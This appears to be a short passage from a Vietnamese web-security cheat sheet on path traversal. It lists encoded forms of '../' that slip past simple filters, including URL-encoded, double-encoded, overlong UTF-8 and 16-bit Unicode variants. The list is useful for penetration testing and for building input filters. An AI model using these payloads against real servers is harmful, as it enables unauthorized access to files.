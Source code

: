 ## Basic exploitation ##
Sử dụng chuỗi ký tự `../` để truy cập thư mục cha. Một số cách bypass những filter đơn giản:
```
../
..\
..\/
.././
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```
16 bits Unicode encoding
```
. = %u002e
/ = %u2215
\ = %u2216
```
UTF-8 Unicode encoding
```
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```
